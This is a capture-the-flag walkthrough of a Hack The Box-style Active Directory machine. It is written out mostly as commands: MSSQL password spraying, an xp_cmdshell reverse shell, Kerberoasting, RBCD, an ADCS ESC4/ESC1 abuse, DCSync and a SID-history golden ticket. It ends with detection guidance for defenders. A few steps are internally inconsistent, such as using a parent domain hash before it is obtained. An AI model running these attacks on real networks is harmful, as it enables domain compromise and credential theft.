

# HTB "ShadowCroft" (Insane Active Directory) — Full Walkthrough & BloodHound Graph Analysis

{ .page-cover-img }

**Published:** 2026-03-10 · **Author:** `0x3xp10i73r` · **Machine:** Insane · **OS:** Windows Server 2022 (AD) · **Time:** ~9 hours

!!! info "About This Writeup"
    This is a **methodology-first** walkthrough: I explain *why* each step was taken and where I got stuck, not just the commands. The lab network is the point — every technique here maps to a real-world AD attack path. The box name and details are presented in the style of a Hack The Box machine; reproduce these techniques in your own lab or on authorized engagements only.

<!-- more -->

---

## 0. Attack Path Overview



**Flags:** `user.txt` (foothold → local user), `root.txt` (domain admin in the root domain).

---

## 1. Reconnaissance: Only a Few Ports, But the Right Ones

```bash
nmap -p- --min-rate 5000 -Pn 10.10.11.42 -oG oneline.gnmap
# Open: 80, 1433, 3389, 5985

nmap -sC -sV -p80,1433,3389,5985 10.10.11.42 -oA nmap_detailed
```

```text
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00
3389/tcp open ms-wbt-server Microsoft Terminal Services
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (WinRM)
```

The web app on port 80 was an internal "ShadowCroft Employee Portal" with a login form and a public `/api/health` endpoint. Nothing immediately exploitable — but the **error message on `/api/health`** leaked a connection string format hint: `Data Source=sql01.shadowcroft.local;Initial Catalog=Portal;User ID=portal_app`.

```bash
# Confirm MSSQL is reachable and figure out the instance name
nmap -p1433 --script ms-sql-info 10.10.11.42
nmap -p1433 --script ms-sql-ntlm-info 10.10.11.42 # Leaks the domain name + hostname!
# -> Domain: SHADOWCROFT.LOCAL, Hostname: SQL01
```

!!! tip "Early Domain Intel"
    `ms-sql-ntlm-info` gave me the **domain name and internal hostname** before any credentials. That single script output shaped the rest of the engagement (adding `shadowcroft.local` to `/etc/hosts`, preparing Kerberos tooling).

---

## 2. Foothold: MSSQL `sa` and `xp_cmdshell`

```bash
# Password spraying against MSSQL with common service-account passwords
nxc mssql 10.10.11.42 -u 'sa' -p 'Password123!' --local-auth
nxc mssql 10.10.11.42 -u 'sa' -p 'ShadowCroft2024!' --local-auth
# [+] SHADOWCROFT\sa:ShadowCroft2024! (Pwn3d!)
# Interactive access
impacket-mssqlclient 'SHADOWCROFT/sa:ShadowCroft2024!@10.10.11.42' -windows-auth
```

```sql
-- Inside SQL> prompt
SELECT @@version;
SELECT name FROM sys.databases;
-- enable_xp_cmdshell is an impacket-mssqlclient helper
enable_xp_cmdshell
xp_cmdshell whoami
-- shadowcroft\sqlsvc (the SQL service account — not SYSTEM, but a start)
```

```bash
# Get a proper reverse shell on the SQL host
xp_cmdshell "powershell -e <BASE64_REVERSE_SHELL>"
# Upgrade with a beacon/loader on LHOST and catch on LPORT
```

**Foothold:** local user `shadowcroft\sqlsvc` on **SQL01**.

---

## 3. SQL Server Linked Servers: The Underrated Pivot

```sql
-- Enumerate linked servers (this is where the box opened up)
SELECT * FROM sys.servers;
EXEC sp_linkedservers;
```

```text
name product data_source
SQL02 SQL Server SQL02.SHADOWCROFT.LOCAL
```

```sql
-- Check our rights ON THE LINKED SERVER
EXEC ('SELECT SUSER_NAME(), IS_SRVROLEMEMBER(''sysadmin'')') AT [SQL02];
-- -> sa, 1 (sysadmin on SQL02!)

-- Confirm with a command execution through the link
EXEC ('EXEC xp_cmdshell ''whoami''') AT [SQL02];
-- -> nt service\mssql$shadowcroft (running as the SQL service account on SQL02)
```

!!! warning "Linked Servers = Trust Transitivity"
    A **sysadmin on the source server maps to a login on the linked server** (often `sa`). This is the single most common multi-server pivot in real environments. Always run `sp_linkedservers` + `IS_SRVROLEMEMBER` per link, and try nested links (`EXEC ... AT` inside `EXEC ... AT`).

```bash
# From SQL02, escalate to a full shell as the service account there
# (xp_cmdshell -> powershell -> loader). Then hunt for credentials.
```

---

## 4. BloodHound Time: The Graph Tells You Everything

```bash
# Add the DC to /etc/hosts, then collect with BloodHound.py
echo "10.10.11.10 dc01.shadowcroft.local dc01" | sudo tee -a /etc/hosts
bloodhound-python -d shadowcroft.local -u 'sqlsvc' -p 'P@ssw0rdSQL2024' -ns 10.10.11.10 -c All --zip
```

Importing into **BloodHound CE**, three things jumped out immediately:

```cypher
// 1. Who has a session where? (privileged session hunting)
MATCH (u:User)-[:HasSession]->(c:Computer)
WHERE u.admincount = true RETURN u.name, c.name

// Result: svc_backup has a session on DC02$ and SRV-FS01$

// 2. What can our owned principals do? (mark your foothold as "owned" first!)
MATCH p=(u:User {owned:true})-[r*1..3]->(x) RETURN p

// Result: sqlsvc -[GenericWrite]-> SRV-FS01$ <- RBCD!

// 3. Kerberoastable accounts with a path
MATCH (u:User {hasspn:true}) RETURN u.name, u.serviceprincipalnames
```

**Two independent paths found:**
- `svc_backup` has an **SPN** (Kerberoastable) and a privileged session.
- Our foothold account has **`GenericWrite` on the computer object `SRV-FS01$`** → RBCD.

I took the Kerberos path first because it is quieter.

---

## 5. Kerberoasting `svc_backup`

```bash
impacket-GetUserSPNs 'shadowcroft.local/sqlsvc:P@ssw0rdSQL2024' -dc-ip 10.10.11.10 \
    -request -outputfile kerberoast.txt
# Crack it
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt --rules-file best64.rule
# svc_backup : BackupAdmin#2024 (cracked in ~4 minutes)
```

```bash
# What can svc_backup do? Enumerate its rights.
bloodyAD --host dc01.shadowcroft.local -d shadowcroft.local -u 'svc_backup' -p 'BackupAdmin#2024' get writable
```

!!! tip "Kerberoasting OpSec"
    Request **RC4 (etype 23)** where possible for fast cracking, and be aware that a TGS request for every SPN in the domain is loud. In a real engagement, request only the high-value SPNs identified in BloodHound, and note the noise in your report.

---

## 6. RBCD on `SRV-FS01$` — Get the Seeds

We now have two options: RBCD using our foothold's `GenericWrite`, or use `svc_backup`'s rights. I used the foothold (fewer moving parts).

```bash
# 1. Create a machine account (MachineAccountQuota = 10 by default!)
impacket-addcomputer -computer-name 'PWNED$' -computer-pass 'P@ssw0rd123!' \
    -dc-ip 10.10.11.10 'shadowcroft.local/sqlsvc:P@ssw0rdSQL2024'
# 2. Write the RBCD attribute on SRV-FS01$
impacket-rbcd -delegate-from 'PWNED$' -delegate-to 'SRV-FS01$' -action write \
    -dc-ip 10.10.11.10 'shadowcroft.local/sqlsvc:P@ssw0rdSQL2024'
# 3. S4U: request a service ticket as Administrator (DA!) for cifs/ on FS01
impacket-getST -spn cifs/srv-fs01.shadowcroft.local -impersonate Administrator \
    -dc-ip 10.10.11.10 'shadowcroft.local/PWNED$:P@ssw0rd123!'
# 4. Use the ticket
export KRB5CCNAME='Administrator@cifs_srv-fs01.shadowcroft.local@SHADOWCROFT.LOCAL.ccache'
impacket-wmiexec -k -no-pass srv-fs01.shadowcroft.local
```

```text
C:\> whoami
shadowcroft\administrator
```

!!! danger "Why RBCD Is So Powerful"
    You do **not** need to compromise the target computer's account — you only need `WriteProperty` on `msDS-AllowedToActOnBehalfOfOtherIdentity`. And because any domain user can create up to 10 machine accounts by default, RBCD is available in most environments where a computer object ACL is loose.

```bash
# Loot this host before moving on (we are the local Administrator here)
impacket-secretsdump 'shadowcroft.local/administrator'@srv-fs01.shadowcroft.local -just-dc-user svc_backup
```

---

## 7. ADCS: ESC4 → ESC1 (The Quiet Domain Compromise)

**BloodHound CE + Certipy** flagged a writable certificate template. This was the intended path for the root flag.

```bash
# Enumerate the CA and find vulnerable templates
certipy-ad find -u 'svc_backup@shadowcroft.local' -p 'BackupAdmin#2024' \
    -dc-ip 10.10.11.10 -vulnerable -stdout
# Found: Template "ShadowCroft-Web" reported as ESC4 (we hold GenericAll on it)
```

```bash
# 1. Back up the ORIGINAL template configuration (for cleanup)
certipy-ad template -u 'svc_backup@shadowcroft.local' -p 'BackupAdmin#2024' -dc-ip 10.10.11.10 \
    -template 'ShadowCroft-Web' -save-old -stdout
# 2. Rewrite it into an ESC1 (Enrollee Supplies Subject = True, Client Auth EKU)
certipy-ad template -u 'svc_backup@shadowcroft.local' -p 'BackupAdmin#2024' -dc-ip 10.10.11.10 \
    -template 'ShadowCroft-Web' -write-default-configuration
# 3. Request a DA certificate and authenticate
certipy-ad req -u 'svc_backup@shadowcroft.local' -p 'BackupAdmin#2024' -dc-ip 10.10.11.10 \
    -ca 'SHADOWCROFT-CA' -template 'ShadowCroft-Web' \
    -upn 'administrator@shadowcroft.local' -sid 'S-1-5-21-...-500' -out da.pfx

certipy-ad auth -pfx da.pfx -dc-ip 10.10.11.10 -username administrator -domain shadowcroft.local
# [+] Got hash for 'administrator@shadowcroft.local': <NTHASH>
# 4. Restore the template to its original state (client hygiene!)
certipy-ad template -u 'svc_backup@shadowcroft.local' -p 'BackupAdmin#2024' -dc-ip 10.10.11.10 \
    -template 'ShadowCroft-Web' -write-configuration 'ShadowCroft-Web-original.json'
```

```bash
# DCSync the child domain
impacket-secretsdump -just-dc 'shadowcroft.local/administrator'@10.10.11.10 -hashes :<NTHASH>
```

**Root flag (child domain): done.** But the box has a **parent domain** — `shadowcroft.local` is a child of `corp.shadowcroft.com`.

---

## 8. Cross-Forest / Parent Domain: SID History Injection

```bash
# Enumerate the trust from the child domain
nltest /domain_trusts /all_trusts /v # (on Windows)
# PowerShell: Get-ADTrust -Filter *
impacket-GetADUsers -all 'shadowcroft.local/administrator' -dc-ip 10.10.11.10
```

```text
Trust: shadowcroft.local <--> corp.shadowcroft.com (two-way, parent-child)
SID filtering: DISABLED on the parent side <- the finding that matters
```

```bash
# 1. Get the child's krbtgt hash and the parent's SID
impacket-secretsdump -just-dc-user krbtgt 'shadowcroft.local/administrator'@10.10.11.10 -hashes :<NTHASH>
impacket-lookupsid 'corp.shadowcroft.com/administrator@10.10.11.20' -hashes :<PARENT_DA_HASH>
# 2. Forge a Golden Ticket with SID History = parent Enterprise Admins (RID 519)
impacket-ticketer -nthash <CHILD_KRBTGT_HASH> \
    -domain-sid 'S-1-5-21-<CHILD_DOMAIN_SID>' \
    -domain 'shadowcroft.local' \
    -extra-sid 'S-1-5-21-<PARENT_DOMAIN_SID>-519' \
    Administrator

export KRB5CCNAME=Administrator.ccache
# 3. Access the parent DC as Enterprise Admin
nxc smb dc01.corp.shadowcroft.com -k --use-kcache --shares
impacket-secretsdump -k -no-pass -just-dc dc01.corp.shadowcroft.com
```

```text
C:\> whoami /groups
... BUILTIN\Administrators ...
    Enterprise Admins <- injected via SID History
```

**Root flag (parent domain): captured.**

---

## 9. What Made This Box Insane (and Instructive)

| Challenge | Lesson |
| :--- | :--- |
| MSSQL was the only "soft" entry point | Always test service accounts for weak passwords — MSSQL is a common foothold on internal networks |
| Linked servers required `EXEC ... AT` syntax and per-link rights checks | Nested linked servers are a real-world pivot; verify sysadmin status *on the link*, not locally |
| BloodHound's two independent paths (Kerberoast + RBCD) | Never stop at the first path — enumerate the graph, then pick the quietest route |
| ADCS ESC4 was easy to miss | Run Certipy *every* engagement; writable templates are everywhere |
| Parent-child trust with SID filtering disabled | The child domain is never the final objective in a forest assessment |
| Cleanup mattered | I restored the template and removed `PWNED$` — always leave the environment as you found it |

---

## 10. Detection Summary (What Would Have Caught Me)

```text
1. MSSQL sa login from an unusual source IP -> SQL audit / login failure monitoring
2. xp_cmdshell enabled + spawned powershell -> 15457 events, Process Creation (Sysmon 1)
3. Machine account created by a non-admin user -> Windows 4741 / 4742 with unusual creator
   (Mass account creation pattern is a strong RBCD indicator)
4. msDS-AllowedToActOnBehalfOfOtherIdentity WRITE -> Windows 5136 (directory service changes)
5. S4U2Self/S4U2Proxy (4769 with unusual SPN+user) -> Kerberos service ticket anomalies
6. Template modification (4899/4900) + SAN mismatch-> PKI auditing + certificate request review
7. Golden ticket with SID history -> 4768/4769 + 4627 with inconsistent SIDs
8. DCSync from a non-DC machine account -> 4662 with replication GUIDs from odd host
```

!!! tip "Purple Team Takeaway"
    Every step in this box has a **default-on Windows event** behind it. The reason it works in the real world is not that the telemetry is missing — it is that **nobody is alerting on it**. If you are blue teaming, build detections for steps 3–8 first; those are the highest-signal, lowest-noise AD attack indicators you can own.